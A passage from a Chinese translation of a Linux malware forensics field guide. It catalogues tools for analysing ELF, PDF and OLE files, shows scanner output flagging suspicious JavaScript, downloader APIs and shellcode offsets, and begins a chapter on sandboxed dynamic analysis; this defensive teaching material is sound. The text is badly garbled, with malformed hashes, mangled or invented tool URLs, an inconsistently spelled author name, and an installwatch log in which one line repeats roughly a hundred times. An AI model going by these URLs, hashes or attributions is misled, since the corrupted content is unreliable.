| `-l` | 显示程序头 |
| `-s` | 显示节头 |
| `-t` | 显示节详情 |
| `-e` | 显示头部详情 |
| `-s` | 显示符号 |
| `--dyn-syms` | 显示动态符号 |
| `--notes` | 显示注释 |
| `-V` | 显示文件版本信息 |

| `objdump` | 显示 ELF 信息 |
| `size` | 显示节大小 |

恶意软件取证领域指南

| 名称：Greadelf |
|------|
| 页面引用：276 |
| 作者/发布者：Ashok Das |
| 获取途径：https://code.google.com/p/greadelf |
| 描述：用于 `readelf` 的图形化工具，提供 ELF 视图。 |

| 名称：nm | 列出文件中的符号。 |



| 名称：ERESI 逆向工程界面 |
|------|
| 页面引用：308 |
| 作者/发布者：Julien Vanague 和 ERESI 团队 |
| 获取途径：http://www.eresi.org |
| 描述：一个面向逆向工程的多架构二进制分析框架。该框架包含以下工具：`elf`, `kdbg`, `etrace`, `evista`, `kersch`。 |

| 名称：Readelf |
|------|
| 页面引用：277, 305, 308 |
| 作者/发布者：GNU |
| 获取途径：www.gnu.org/binutils |
| 描述：显示 ELF 文件结构和内容的命令行工具。 |

| 开关 | 功能 |
| --- | --- |
| `-d` | 显示进程数据重定位 |
| `-r` | 显示进程数据和函数重定位 |
| `-u` | 显示未使用的直接依赖 |
| `-v` | 详细模式；打印所有信息 |

## 恶意文档分析

## 恶意文档分析：PDF 文件

| 名称：Origami |
|------|
| 页面引用：341-344 |
| 作者/发布者：Guillaume Delugré, Frédéric Raynal (贡献者) |
| 获取途径：http://esec-lab.sogei.com/doctypeindex.php?pages=Origami; http://google.com/origami-pdf |
| 描述：Origami 是一个用 Ruby 编写的框架，用于解析和分析恶意 PDF 文档，并为了研究目的生成恶意 PDF。Origami 包含一系列 Ruby 解析器——核心脚本（如下所示）、脚本和 Walker（用于检查可疑 PDF 文件的 GTK GUI 界面，如图）。 |

| 脚本 | 功能 |
| pdfscan.rb | 解析目标 PDF 文件标本的内容和结构 |
| extractjs.rb | 从目标 PDF 文件标本提取 JavaScript |
| detectsig.rb | 检测目标 PDF 文件标本中的恶意签名 |
| pdfclean.rb | 从目标 PDF 文件标本提取元数据 |
| printmetadata.rb | 从目标 PDF 文件标本提取文件元数据 |



# Linux 系统恶意软件取证野外指南

名称：Jsunpack-n
页码：344
作者/分发者：Blake Harstein
获取地址：https://google.com/p/jsunpack-n; Jsunpack: http://jsunpack.jeek.org/dec/go
描述：Jsunpack 是“通用 JavaScript 解包器”，是一套用 Python 编写的工具集，用于模拟浏览器行为并向 URL 通知。虽然它是研究人员调查漏洞的强大工具，但 Jsunpack 也是数字调查员喜爱的工具，用于识别客户端浏览器漏洞、检查 PDF 文件并提取 JavaScript。在图所示，`*pdf.py*` 脚本用于从可疑 PDF 文件中提取 JavaScript 并将其写入单独的文件中以便进一步分析。

```
malwarelab/malwarelab/jsunpack-n.py

/home/malwarelab/Desktop/merry_christmas_UNZIPPED.pdf

processing /home/malwarelab/Desktop/merry_christmas_UNZIPPED.pdf!!!

parsing /home/malwarelab object(t 26 0

failed to decompress

Found JavaScript in 31 0 (3106 bytes)

children [

  tags ['Filter', ''], ['FlatDecode', ''], ['Length', '1213']\]

indata = <<Filter/[FlatDecode]/Length

1213>>streamVmG8YJ) [pB8jIO=vYtp?>=5ba==9<s'gt]-gghlIwwhY

Wrote JavaScript (9085 bytes -- 5979 headers / 3106 code) to file

/home/malwarelab/Desktop/merry_christmas_UNZIPPED.pdf.out
```

名称：PDFMiner
页码：347
作者/分发者：Yusuke Shinyama
获取地址：http://www.unixuser.org/~euke/python/pdfminer/index.html
描述：Python PDF 解析器和分析器。PDF Miner 包含许多 Python 脚本用于提取 PDF 文件内部的文本数据：`pdf2txt.py`（从 PDF 文件提取文本内容）和 `dumppdf.py`（以伪 XML 格式显示 PDF 文件的内部内容）。

## 第 5 章 文件识别与分析

|  way | Peepdf |
| :--- | :--- |
| 页码 | 347 |
| 作者/分发者 | Jose Miguel Esparza |
| 获取地址 | http://google.com/invoked/peepdf |
| 描述 | 命令行 PDF 解析器和分析器。Peepdf 可以调用并指向目标文件（如图所示），或使用“-i”选项创建一个“PPDF shell”，在其中可以直接查询。 |

```
labMalwareLab=~/peepdf.py -f Beneficial-medical-programs.pdf

File: Beneficial-medical-programs.pdf

MD5: 3d2d3b618c0878bd332ee29bbc4c0

SHA1: a447a8bc7f12e5178be3e3bl8f54af4af51

Size: 32860 bytes

Version: 1

Binary: True

Linearized: False

Encrypted: False

Updates: 0

Objects: 14

Streams: 4

Comments: 0

Errors: 0

Version: 0

Info: No

Objects: [14]; [1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 13, 14, 64]

Streams: (4); [8, 64, 10, 14]

Encoded: (2); [64, 10]

Decoding error: (1); [64]

Suspicious Elements:

/AcroForm: [1]

/OpenAction: [1]

/JS: [11]

/Javascript: [11]
```

| 选项 | 功能 |
| :--- | :--- |
| metadata | 显示目标 PDF 元数据，包括创建日期、修改日期、生产者、创建者、关键词、作者或其他项目。 |
| object | 显示目标对象在解码和解密后的内容 |
| offsets | 显示目标文件的物理结构 |
| open | 打开并解析目标文件 |
| rawobject | 在不进行解码和解密的情况下显示目标对象的内容 |
| rawstream | 显示目标文件中的对象引用或对象 |
| references | 在目标文件中搜索指定的字符串或十六进制字符串 |
| stream | 显示目标流在解码和解密后的内容 |

# Linux 系统恶意软件取证野外指南

名称：Malzilla
页码：351
作者/分发者：Boban Spasic aka chubby
获取地址：http://malzilla.sourceforge.net/downloads.html
描述：Malzilla 由恶意软件猎寻工具的开发者开发，通常用于恶意软件研究人员导航潜在的恶意 URL，以探测恶意及相关产物的内容。然而，Malzilla 具有多种解码和 shellcode 分析功能，使其成为数字调查员工具箱中探索恶意 PDF 文件的必备工具。截至本文编写时，该工具尚未在 Linux 上安装和运行；必须先在分析系统中安装 WINE 或 CrossOver。


名称：Hachoir-utid
页码：357
作者/分发者：Victor Wiener
获取地址：https://bitbucket.org/hachoir/parser/hachoir-utid
描述：基于 hachoir-parser，hachoir-utid 是一种二进制文件探索工具，可以解析许多类型的文件，包括 OLE 文件。

## 第 5 章 文件识别与分析

名称：Hachoir-wx
页码：271, 357
作者/分发者：Victor Steiner
获取地址：https://bitbucket.org/hachoir/wiki/hachoir-wx
描述：基于 wx 的 hachoir GUI，使数字调查员能够解析包括 OLE 文件在内的二进制文件。

```
https://bitbucket.org/hachoir/blob/docs/hachoir.md
```

```
d0 cf 11 e0 e8 b1 0a 01 00 00 00 00 03 ff ff
00 00 00 00 00 00 00 ff ff ff ff ff
23 00 00 00 00 00 00 00 ff ff ff ff ff
00 00 00 00 00 00 00 00 ff ff ff ff ff
ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff ff ff ff ff
```

```
| 地址 | 名称 | 类型 | 大小 |
| :--- | :--- | :--- | :--- |
| 0000008.0 | header/ | header | 00000068.0 |
| 0000004.0 | difat/ | Difat | 0000420.0 |
| 0000438.0 | property/ | Property | 00000510.0 |
| 0000448.0 | sfat/ | Sectfat | 00000510.0 |
| 0000448.0 | property(1)/ | Property | 00000120.0 |
| 0000458.0 | property(2)/ | Property | 00000120.0 |
| 0000458.0 | property(3)/ | Property | 00000120.0 |
| 0000468.0 | property(4)/ | Property | 00000120.0 |
| 0000468.0 | property(5)/ | Property | 00000120.0 |
```

# Linux 系统恶意软件取证野外指南

名称：pyOLEscanner

页码：357

作者/分发者：Giuseppe 'Evilcrly' Bonfa

获取地址：https://github.com/Evilcrly/PythonScripts

描述：用于筛选 OLE 文件恶意性的 Python 脚本，包括嵌入的可执行文件、API 引用、shellcode 和其他产物。

```
malwareLab|~$pyOLEscanner$ python pyOLEscanner.py Discussions.doc
```


```
OLE Scanner v 1.2
| Giuseppe 'Evilcrly' Bonfa
-------------------------------------------
[-] OLE File Seems Valid
[-] Hash Informations
SHA1: 5901b5ef87bc34c59fd5a5cb1d82ee6c8eb31b7bee3019fa
[-] Scanning for Embedded OLE in Clean
```

发现嵌入的 OLE

[-] Scanning for API presence in Clean

发现 `WinExec` 存在于 offset: `0x703c`

发现 `ShellExec` 存在于 offset: `0x70d4`

发现 `URLDownloadToFile` 存在于 offset: `0x7064`

发现 `URLDownloadToFile` 存在于 offset: `0x6f2a`

警告：文件可能被感染！！！！

[-] Scanning for Embedded Executables - Clean Case

('Embedded Executable discovered at offset: ', '0x3c44e', '\n')

```
警告：文件可能被感染！！！！
[-] Scanning for Shellcode Presence
PS: [0S] Shellcode at offset: 0x6137
NOP Slide: 0x5c9a
```

警告：文件可能被感染！！！！

[-] Scanning for MACROS

未发现 MACROS

('发生了一个错误:', 'columns MD5, SHA1 are not unique')

# 第 5 章 文件识别与分析

**名称：**Bye (Binary Eye)（以前称为 BinaryWER，“BIEW"）

**页码：**357

**作者/分发者：**Nickols Kurshev

**获取地址：**http://byece.sourceforge.net/

**描述：**基于终端用户界面的工具，用于解析多种二进制文件格式，包括 ELF 和 OLE 文件。


**名称：**Structured Storage Viewer

**页码：**357

**作者/分发者：**MiTec/Michal Mut

**获取地址：**http://www.mitec.cz/ssv.html

**描述：**用于分析操作系统结构化存储文件的 GUI 工具。截至本文编写时，该工具尚未在 Linux 上原生运行：必须先在分析系统中安装 WINE 或 CrossOver。

## 选读材料

### 书籍

- Jones, K., Beitlich, R. & Rose C.W., (2005). 《Real Digital Forensics》，Reading, MA: Addison-Wesley. Prose, C., Mandia, K., & Pepe, M. (2003). 《Incident Response and Computer Forensics》，第二版. New York: McGraw-Hill/Osborne.

### 论文

- Blonce, A. & Filiol, E. (2008). 便携文档格式 (PDF) 安全分析与恶意软件威胁. In the Proceedings of Black Hat Europe, IEEE Security and Malware, http://www.blackhat.com/presentations/bh-eu-08/Filiol/Presentation-bh-eu-08-.pdf.
- Baldwin, F. (2009). 使用 OfficeMalScanner 分析 OS恶意软件, http://www.reconstruct-struct.org/papers/Analyzing%20OS Malware%20withOfficeMalScanner.pdf
- Baldwin, F. (2008). OS恶意软件分析的新进展, http://www.reconstruct.org/papers/New%20Advances%20in%20OS%20Malware%20Analysis.pdf.
- Dan, B. (2008). 用于理解和分析 Office 文档攻击, In the Proceedings of Black Hat Japan, 2008, http://www.blackhat.com/presentations/bh-jp-08/bj-jp-08/BlackHat-Japan-Dan-Office-Attacks.pdf.
- Raynal, F., Delgour, G., & Aumaitre, J. (2009). 恶意 PDF 源头溯源, In the Proceedings of HACK LU, 2009, http://security-labs.org/free/docs/hacklu09-origins-back.pdf.
- Raynal, F., Delgour, G. (2008). PDF 中的恶意来源, In the Proceedings of the PacSec Conference, 2008, http://security-labs.org/free/docs/pacsec08/pacsec08-fr-gd-full.pdf.
- Stevens, D. (2011). 恶意 PDF 文档, IEEE Security & Privacy Magazine, Vol, No. 1.
- Stevens, D. (2010). 恶意 PDF 分析电子书, In the Proceedings of BuCon, 2010, http://diidervices.com/free/data/malicious-pdf-analysis-ebook.pdf.
- Stevens, D. (2010). 恶意 PDF 文档, ISSA 杂志, Issue 7/2010, https://www.issa.org/Library/Journals/2010/July/Stevens-%20PDFs%20Documents.pdf.
- Stevens, D. (2009). 逐步分析恶意 PDF 文件, HITB 杂志, Issue 4, http://magazine.hitb.org/issues/HITB-zine-Issue-004.pdf.
- Stevens, D. 恶意 PDF 文档解剖, HAKINN IT Security Magazine, Issue 6/2009.
- Terziamz, Z., 等人. (2011). 结合静态和动态分析检测恶意文档, In Proceedings of the 4th European Workshop on System Security (EuroSec), April 2011.

### 在线资源

- Holz, T. (2009). 分析恶意 PDF 文件, http://honeyblog.org/archives/12-Analyzing-Malicious-PDF-Files.html.
- Santosa, M. (2006). 使用 readelf 和 objdump 理解 ELF, http://www.linuxforums.org/articles/understanding-elf-readelf-and-objdump-125.html.
- Selvaraj, K. & Gutierrez, N. F. (2010). PDF 恶意软件的崛起, http://www.symantec.com/connects/rise-pdf-malware; http://www.symantec.com/en/us/enterprise/media/security-response/whitepapers/the_rise_of_pdf_malware.

### Linux 系统恶意软件取证领域指南

- Youngdale, E. (1995). ELF 对象文件格式：简介, http://www.linuxjournal.com/article/1059.
- Youngdale, E. (1995). 剖析 ELF 对象文件格式 http://www.linuxjournal.com/article/1060.
- Zdnja, B. (2010). 利用 CVE-2009-4324 的复杂针对性恶意 PDF 文档, http://ics.sanc.org/diary.html?storyid=7867.
- Zeltser, L. (2010). 恶意文档分析表, http://zeltser.com/reverse-malware/analyzing-malicious-documents.html; http://zeltser.com/reverse-malware/analyzing-malicious-document-files.pdf.

### 技术规范

- Microsoft Office 文件:
  - msdn.microsoft.com/en-us/library/cc31318.aspx
- Microsoft Office 文件文档:
  - msdn.microsoft.com/en-us/library/cc31305.aspx
- Microsoft Office 二进制 (doc, xls, ppt) 文件格式:
  - msdn.microsoft.com/en-us/library/cc31313.aspx
- Microsoft 复合文件:
  - http://download.microsoft.com/download/d/9942
- Microsoft Word (.doc) 格式:
  - msdn.microsoft.com/en-us/library/cc51353.aspx
- Microsoft PowerPoint (.ppt) 格式:
  - msdn.microsoft.com/en-us/library/cc31306.aspx
- Microsoft Excel (xls) 格式:
  - msdn.microsoft.com/en-us/library/cc31354.aspx
- 便携文档格式 (PDF):
  - http://www.adobe.com/content/dam/en/pdf3200.

# 第 6 章 恶意样本分析

## 本章中的解决方案

- 目标
- 检查恶意样本的指南
- 建立环境
- 执行前准备：系统与网络
- 执行取证
- 执行轨迹：监控与证据
- 自动化恶意软件框架
- 交互恶意样本：回顾与溯源
- 数字取证：分类学

## 引言

通过第 5 章讨论的方法、工具和技术，可以获得恶意文件的深入见解，反之，本章将进一步探讨样本的性质和功能。记住动态分析涉及执行代码并监控其行为和对主机的影响，而静态分析是在不执行代码的情况下分析。

### 目标

在分析怀疑程序时，考虑以下因素：

- 程序的性质和目的是什么？
- 程序如何实现目的？
- 程序如何与主机系统交互？
- 程序如何与网络交互？
- 攻击者如何与程序交互（命令控制等）？
- 程序反映了攻击者什么样的水平？
- 程序反映了编码者什么样的水平？
- 程序的目标是什么——是针对特定系统还是通用攻击？
- 程序使用的可识别攻击向量是什么？
- 系统或网络的感染或受损程度如何？

尽管回答所有这些问题都很困难，因为对于数字调查人员来说，许多解谜的关键（如额外的文件或网络资源）已无法获取。

在学习这些材料时，请记住，“逆向工程”以及本章讨论的某些技术受到国际、联邦、州或当地法律的规定。同样，请记住某些提到的工具在某些司法辖区可能被视为“黑客工具”，并受到类似的法律监管或限制。有关更多详细信息，请参阅第 4 章，并在实施本文及后续章节讨论的任何技术之前咨询法律顾问。

# 分析提示

对潜在有害代码进行取证分析需要安全的环境。从系统中提取可疑文件后，将其放置在隔离的或“沙箱”系统或网络中，以确保代码被受控且无法连接或影响任何生产系统。同样，确保沙箱实验室环境未连接互联网、局域网 (LAN) 或非实验室系统，因为执行恶意程序可能会导致其他系统的污染或损坏。

## 恶意文件样本检查指南

本章旨在建立一套在 Linux 环境下检查恶意可执行二进制文件的工具和技术通用指南。然而，由于目前攻击者生成的恶意代码样本数量数不胜完，且其功能和目的各异，因此根据每个特定案例的需求灵活调整方法论是绝对必要的。我们将探索的一些基本准则包括：

- 建立环境基准
- 执行前准备
- 执行恶意代码样本
- 捕获执行伪迹
- 执行轨迹分析
- 环境仿真与调整
- 进程分析
- 检查网络连接和端口
- 监控系统调用
- 检查打开的文件和套字（Sockets）
- 探索 `/proc` 目录
- 重新审查嵌入伪迹
- 与操纵恶意软件样本进行交互：探索并验证样本的功能和目的
- 事件重构和伪迹审查
- 数字病毒学：通过恶意软件分类和系统发育学进行高级剖析

## 建立环境基准

> 恶意软件实验室有多种配置选项。在许多情况下，特别是代码需要许多服务器才能完全运行时，或者恶意地采用了反虚拟化代码，以阻碍数字调查人员在虚拟宿主系统中观察代码的努力。

使用虚拟化在恶意代码样本的行为分析期间特别有用，分析通常需要频繁停止和启动恶意进程，以观察程序行为的微妙差别。

- 一个常见且实用的恶意软件实验室模型将利用 `VMware`（或其他优选虚拟化工具，如 `VirtualBox`)²主机来建立一个受感染的“受害者”系统
- 一个“服务器”系统（通常为 Linux），提供恶意软件所需的任何主机或服务，例如 Web 服务器、邮件服务器或 IRC 服务器；

## Linux 系统恶意软件取证现场

- 如果需要，一个“监控”系统（通常为 Linux），其配备网络监控软件，以拦截进出受害系统的网络流量。

## 调查考虑因素

- 在拍摄系统“快照”（下文将讨论）之前，安装并配置系统中分析过程中可能用到的所有工具。通过应用这种方法，创建的基准环境可以作为“模板”重复使用。
- 理想情况下，可以在本地监控受感染的系统，以减少数字调查人员在分析会期间监控多个系统的需求。然而，许多恶意软件样本具有“安全意识”，并使用反取证技术，例如扫描运行中的进程以识别并终止已的安全工具（包括网络嗅探器、防火墙、反病毒软件和其他应用程序），或用受感染的版本替换受信版本。

### 系统快照

在开始检查恶意代码样本之前，对将作为执行恶意代码样本的“受害者”宿主的系统进行快照。

- 实现一种工具，允许将代码执行后的系统状态与原始或初始的系统状态快照进行比较。
- 在 Linux 环境中，数字调查人员可以实现两种此类功能的工具：*主机完整性监控器*和*安装监控器*

## 主机完整性监控器

主机完整性或文件完整性监控工具创建一个系统快照，随后对系统上对象的任何更改将被捕获并与快照进行比较。

- 一些使用的 Linux 主机完整性系统工具包括 Open Source Tripwire (`tripwire`)⁴ 高入侵检测环境 (`AIDE`)⁵ SAMHAIN⁶ 和 OSSEC⁷ 等，它们将在章节末尾的工具箱部分以及配套网站³进行更详细的讨论。

³ 欲了解更多信息，请访问 http://www.f-secure.com/v-descs/torn.shtml。
⁴ 了解更多关于 Open Source Tripwire 的信息，请访问 http://sourceforge.net/projects/tripwire/
⁵ 了解更多关于 AIDE 的信息，请访问 http://aide.sourceforge.net/
⁶ 了解更多关于 SAMHAIN 的信息，请访问 http://www.la-samhna.de/samhain/
⁷ 了解更多关于 OSSEC 的信息，请访问 http://www.ossec.net/
⁸ http://www.malwarefieldguide.com/LinuxChapter6.html。

章节 | 6 恶意样本分析

## 安装监控器

数字调查人员常用于识别因执行未知二进制文件而导致系统更改的另一种工具是*安装监控器*（也称为*安装管理器*）。与通常安装用于监控所有系统的完整性系统不同，安装监控工具充当目标程序的执行或加载机制，并跟踪目标程序执行或安装产生的所有更改——通常是文件系统的更改。

- 一个实用的 Linux 安装监控器是 Installwatch(`installwatch`)，它会记录安装新程序过程中所有已更改和修改的文件。要使用 Installwatch，只需调用该工具并引用目标程序，如图 6.1 所示。

```
malwarelab@MalwareLab:~ installwatch <command>
```

图 6.1—InstallWatch

- *installwatch* 的结果表现为 `/tmp.<filename>` 子目录中的日志，该目录在工具处理时会在命令行终端中创建并标识。日志文件揭示了文件创建以及围绕目标程序的其他细节（图 6.2）。

| | | | | | |

|---|---|---|---|---|

| 0 | access | /usr/lib/gcc/i686-linux-gnu/4.6/to-wrapper | #success |

| 0 | access | /tmp | #success |

| 0 | access | /usr/lib/gcc/i686-linux-gnu/4.6/acclplus | #success |

| 0 | access | /usr/lib/gcc/i686-linux-gnu/4.6/acclplus | #success |

| 0 | access | /usr/lib/gcc/i686-linux-gnu/4.6/acclplus | #success |


| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |


| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
